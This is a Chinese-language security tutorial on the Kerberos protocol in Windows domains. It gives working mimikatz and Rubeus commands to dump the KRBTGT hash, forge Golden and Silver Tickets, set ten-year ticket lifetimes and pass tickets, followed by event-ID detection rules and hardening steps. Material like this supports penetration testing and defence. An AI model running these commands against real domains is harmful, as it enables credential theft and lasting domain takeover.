

## 前言

在Windows域环境中，Kerberos是默认的身份认证协议。理解Kerberos的工作原理不仅是域渗透的基础，更是掌握Golden Ticket和Silver Ticket等高级攻击技术的前提。本文将从Kerberos认证流程出发，剖析票据伪造的原理、实战及防御策略。

**免责声明：本文所有内容仅用于安全研究和授权测试，未经授权对他人系统进行攻击属违法行为。**

---

## 一、Kerberos认证协议详解

### 1.1 协议角色

- **客户端（Client）**：请求访问服务的用户或机器
- **KDC（Key Distribution Center）**：密钥分发中心，运行在域控上，由AS和TGS两个服务组成
- **应用服务器（AP）**：提供具体服务的服务器

description: Kerberos 票据攻击——Golden Ticket/Silver Ticket 伪造与 mimikatz 票据传递。
### 1.2 认证流程

整个Kerberos认证分为三个阶段、六个步骤：



**阶段一：AS Exchange（获取TGT）**

1. **AS-REQ**：客户端使用自身NTLM哈希加密当前时间戳作为预认证信息（PA-ENC-TIMESTAMP），随用户名发送给KDC。
2. **AS-REP**：AS查询用户哈希解密预认证数据并验证。通过后生成Session Key（用用户哈希加密返回），同时签发TGT。TGT使用KRBTGT账户的NTLM哈希加密，内含用户的PAC（Privilege Attribute Certificate），记录了用户SID、组关系等。

**阶段二：TGS Exchange（获取ST）**

3. **TGS-REQ**：客户端用Session Key加密认证符（Authenticator，含用户名和时间戳），连同TGT和目标服务SPN发送给TGS。
4. **TGS-REP**：TGS用KRBTGT哈希解密TGT取出Session Key，解密认证符并验证。通过后生成Service Session Key和Service Ticket（ST）。ST使用目标服务账户的NTLM哈希加密，内含Service Session Key和用户PAC副本。

**阶段三：AP Exchange（使用ST访问服务）**

5. **AP-REQ**：客户端用Service Session Key加密新认证符，连同ST发送给应用服务器。
6. **AP-REP**：服务器用自身哈希解密ST取得Service Session Key，再解密认证符完成验证。可选返回AP-REP实现双向认证。

### 1.3 加密密钥汇总

| 票据类型 | 加密密钥 | 持有者 |
|---------|---------|-------|
| TGT | KRBTGT账户NTLM哈希 | KDC |
| TGT中的Session Key | 用户NTLM哈希 | 客户端 |
| Service Ticket (ST) | 目标服务账户NTLM哈希 | 目标服务 |
| ST中的Service Session Key | Session Key (来自TGT) | 客户端 |

---

## 二、Golden Ticket（黄金票据）

### 2.1 攻击原理

Golden Ticket攻击**伪造TGT**。TGT使用KRBTGT账户的NTLM哈希加密，一旦攻击者获取该哈希，便可伪造任意用户（含域管理员）的TGT，访问域内任何资源。

KRBTGT账户特点：
- 每个域唯一，默认创建且禁用
- 其哈希用于加密所有TGT
- 密码仅在DC提升时设置，极少被修改
- 泄露后可维持持久的域访问权限

### 2.2 利用条件

- 域管理员权限（以导出KRBTGT哈希）
- 域SID（Security Identifier）
- 域名

### 2.3 Mimikatz实战

在域控上导出KRBTGT哈希：

```powershell
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit
```

输出关键信息示例：
```
Domain: CORP.LOCAL
Domain SID: S-1-5-21-123456789-1234567890-123456789
KRBTGT NTLM: a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```

构造并注入Golden Ticket：

```powershell
# 清理现有票据
mimikatz.exe "kerberos::purge" exit

# 生成并导入Golden Ticket
mimikatz.exe "kerberos::golden /domain:CORP.LOCAL /sid:S-1-5-21-123456789-1234567890-123456789 /krbtgt:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /user:Administrator /id:500 /groups:512,513,518,519,520 /ptt" exit
```

参数说明：
- `/domain`：域名
- `/sid`：域的SID
- `/krbtgt`：KRBTGT账户NTLM哈希
- `/user`：要伪造的用户名
- `/id`：用户RID（500=内置管理员）
- `/groups`：组RID（512=Domain Admins, 519=Enterprise Admins等）
- `/ptt`：Pass-The-Ticket，直接注入当前会话

验证成功后即可访问域内任意资源：
```powershell
dir \\DC01.CORP.LOCAL\C$
```

---

## 三、Silver Ticket（白银票据）

### 3.1 攻击原理

Silver Ticket**伪造Service Ticket（ST）**。与Golden Ticket不同，它利用目标服务账户NTLM哈希直接伪造ST，不涉及KDC交互。优势：
- 无需与KDC通信，更隐蔽
- 仅需服务账户哈希，不要求域管理员权限
- 针对性强，可精确控制访问范围

### 3.2 利用条件

- 目标服务账户NTLM哈希（可通过Kerberoasting、LSASS dump、NTDS.dit提取）
- 域SID和域名

### 3.3 Mimikatz实战

```powershell
# 伪造针对DC的CIFS服务票据
mimikatz.exe "kerberos::golden /domain:CORP.LOCAL /sid:S-1-5-21-123456789-1234567890-123456789 /target:DC01.CORP.LOCAL /service:cifs /rc4:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /user:Administrator /id:500 /ptt" exit
```

与Golden Ticket的关键区别：使用`/rc4`指定服务账户哈希，`/target`指定目标服务器，`/service`指定目标服务类别。

常见可伪造服务类别：

| 服务名 | 攻击用途 |
|-------|---------|
| HOST | 远程管理（计划任务、WMI） |
| CIFS | 文件共享访问 |
| HTTP | Web服务访问 |
| LDAP | 目录服务操作 |
| MSSQLSvc | SQL Server访问 |

### 3.4 对比总结

| 维度 | Golden Ticket | Silver Ticket |
|-----|--------------|--------------|
| 伪造对象 | TGT | Service Ticket |
| 所需密钥 | KRBTGT哈希 | 服务账户哈希 |
| 权限要求 | 域管理员 | 仅需服务账户哈希 |
| 访问范围 | 全域 | 仅限目标服务 |
| KDC通信 | 首次访问时 | 不需要 |
| 隐蔽性 | 较低（产生日志） | 较高（无TGS-REQ日志） |

---

## 四、票据生命周期管理

### 4.1 默认有效期

- **TGT**：默认10小时，可续订最长7天
- **ST**：默认10小时
- **伪造票据**：有效期由攻击者自定义，不受域策略约束

### 4.2 自定义有效期

```powershell
# 生成有效期为10年的Golden Ticket
mimikatz.exe "kerberos::golden /domain:CORP.LOCAL /sid:S-1-5-21-... /krbtgt:hash /user:Administrator /id:500 /endin:87600 /renewmax:87600 /ptt" exit
```

参数：`/endin`票据有效期（分钟），`/renewmax`续订最大期限，`/startoffset`生效时间偏移（可用于回溯）。

域策略路径：`计算机配置 → Windows设置 → 安全设置 → 账户策略 → Kerberos策略`。但伪造票据不受这些策略限制。

---

## 五、Pass-The-Ticket（票据传递）

### 5.1 攻击原理

PTT将Kerberos票据注入当前会话，使会话拥有票据指定的身份，无需知道用户密码，只需有效或伪造的票据。

### 5.2 票据导出与导入

```powershell
# 导出所有票据（.kirbi文件）
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

# 导入票据
mimikatz.exe "kerberos::ptt ticket.kirbi" exit
```

### 5.3 Rubeus操作

```powershell
# 实时监视票据
Rubeus.exe monitor /interval:5 /nowrap

# 从内存转储票据
Rubeus.exe dump /nowrap

# 导入Base64票据
Rubeus.exe ptt /ticket:doIF...<base64>...

# 用哈希请求TGT
Rubeus.exe asktgt /user:Administrator /rc4:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /nowrap
```

### 5.4 票据管理命令

```powershell
klist                          # 列出当前票据
mimikatz.exe "kerberos::list" exit  # Mimikatz查看
mimikatz.exe "kerberos::purge" exit # 清理所有票据
klist purge                    # 系统命令清理
```

---

## 六、检测与防御

### 6.1 Windows事件日志检测

| 事件ID | 描述 | 检测意义 |
|--------|------|---------|
| 4768 | TGT请求 | 异常加密类型、非工作时间请求 |
| 4769 | 服务票据请求 | 异常SPN请求、大量不同SPN |
| 4770 | TGT续订 | 超长续订期指示Golden Ticket |
| 4771 | 预认证失败 | 暴力破解或AS-REP Roasting |
| 4624 | 登录成功 | 检查认证包和登录类型 |
| 4672 | 特权限赋予 | 敏感组成员登录 |

**Golden Ticket检测特征**：
- TGT有效期远超域策略（>10小时）
- 域控上4769事件缺少对应4768事件
- 异常加密类型（如使用RC4而环境强制AES）
- PAC签名异常

**Silver Ticket检测特征**：
- 缺少对应TGS-REQ事件（4769），票据是直接伪造的
- 源IP异常，与正常Kerberos认证流不一致
- Service Ticket中PAC可能被篡改或缺失

### 6.2 防御策略

**1. 保护KRBTGT账户**

```powershell
# 重新生成KRBTGT密钥（需两次重置，间隔至少10小时）
.\New-KrbtgtKeys.ps1 -ResetKrbtgtPassword
```

两次重置确保所有旧TGT失效，间隔需大于默认TGT有效期（10小时），避免影响正常业务。

**2. 最小化特权**

- 严控域管理员组成员
- 服务账户使用Managed Service Account（MSA/gMSA）自动轮换密码
- 限制可委派的服务账户

**3. 技术加固**

- 禁用RC4加密，强制使用AES：组策略 → 安全选项 → `网络安全: 配置Kerberos允许的加密类型`
- 部署Credential Guard保护LSASS进程
- 启用LSA保护（RunAsPPL）
- 将高权限用户加入Protected Users组（使用不可缓存的凭据）
- 定期轮换服务账户密码

**4. 审计与监控**

- SIEM收集分析域控日志，设置异常告警
- 监控KRBTGT密码最后修改时间
- 定期检查敏感组成员变更
- 部署Microsoft Defender for Identity (MDI)检测可疑票据使用

### 6.3 应急响应

1. 确认受影响系统范围
2. 重置KRBTGT密码两次
3. 重置受影响用户和服务账户密码
4. 清除持久化机制
5. 保留取证日志
6. 全面安全隐患排查

---

## 七、总结

Kerberos票据伪造攻击利用了协议设计的信任机制。Golden Ticket和Silver Ticket分别从KDC层和服务层突破认证体系。核心在于理解"信任根"的概念——TGT的信任根是KRBTGT哈希，ST的信任根是服务账户哈希。

防御重心应放在保护这些关键密钥上，同时通过多层次安全监控和审计在攻击链各环节设置检测点。纵深防御策略（Defense in Depth）是应对票据伪造攻击的根本之道。

---

**参考资料**

- [Microsoft - Kerberos Authentication Overview](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [MIT Kerberos Documentation](https://web.mit.edu/kerberos/)
- [ADSecurity - Golden Ticket](https://adsecurity.org/?p=1515)
- [Benjamin Delpy - mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SpecterOps - Kerberoasting Revisited](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
